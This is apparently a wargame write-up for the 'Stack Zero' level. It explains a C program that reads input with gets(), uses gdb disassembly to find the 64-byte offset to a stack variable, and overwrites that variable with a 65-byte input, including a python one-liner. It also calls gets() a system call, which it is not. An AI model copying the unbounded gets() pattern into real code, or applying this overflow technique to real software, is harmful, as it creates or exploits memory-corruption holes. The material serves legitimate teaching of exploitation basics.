 # Stack Zero

> This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

As we can see a `modified` variable is initialized which has the qualifier `volatile` is created. The `volatile` qualifier tells the compiler to not optimize the usage of the variable as it can be changed at any time.

Afterwards, a buffer of 64 bytes is created.

The variable is later initialized to `0`.

The `gets` system call is used to read user input into the buffer. This syscall is infamous for it's bugs.

Let's look at the manual page.

```
 BUGS     

       Never use gets(). Because it is impossible to tell without
       knowing the data in advance how many characters gets() will read,
       and because gets() will continue to store characters past the end
       of the buffer, it is extremely dangerous to use. It has been
       used to break computer security. 
```

So the `gets` syscall stores characters past the end of the buffer. This essentially breaks the limit set on the buffer which means we can input more than 64 bytes.

This is the vulnerability that we have to exploit.

But before that let's go through the rest of the code.

There is an `if` statement which checks if the value of `modified` in not equal to zero. If it is not equal to 0, it prints out a string `else` it prompts us to try again.

We have to overwrite the `modified` variable using a buffer overflow. For that we have have to know where the `modified` variable is located.

Let's disassemble the program in `gdb`.

```
(gdb) disassemble main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
```

Look at the instruction at `main+9`.

```
--snip--;
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
--snip--;
```

We can see that the variable is located at `esp+0x5c` and is set to zero using dereferencing.

Next, we want to locate the buffer.

```
--snip--;
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
--snip--;
```

In 32-bit assembly the arguments for a `call` are stored onto the `stack`.

In our program the `gets` syscall takes the location of the buffer as argument. This buffer is located at `esp+0x1c`.

The distance between the location of the `modified` variable and the buffer is the following:

```
(gdb) p/d 0x5c - 0x1c
$1 = 64
```

The variable is located right where the buffer ends.

Therefore we need 65 bytes in total, 64 bytes to fill the buffer and 1 byte to overwrite the `modified` variable.

## Exploit

```
$ ./stack0
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaB
you have changed the 'modified' variable
```

We can also use `python` to craft the exploit.

```
$ python -c 'print "a"*(64)+"B"' | ./stack0
you have changed the 'modified' variable
```
